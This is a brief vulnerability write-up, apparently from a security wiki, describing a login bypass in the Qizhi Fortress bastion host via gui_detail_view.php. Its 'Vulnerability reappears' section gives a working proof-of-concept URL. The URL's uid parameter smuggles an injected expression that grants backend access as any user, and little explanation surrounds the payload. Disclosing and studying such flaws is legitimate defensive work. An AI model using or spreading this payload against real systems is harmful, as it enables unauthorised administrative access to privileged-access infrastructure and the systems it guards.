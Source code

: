 # Qizhi Fortress gui_detail_view.php Any user login vulnerability

## Vulnerability Description

Qizhi Fortress has a login vulnerability for any user. You can get backend permissions by accessing a specific Url.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Qizhi Fortress</span>

## Network surveying and mapping



## Vulnerability reappears

The vulnerability POC is

```plain
https://xxx.xxx.xxx.xxx/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/qz-1.png)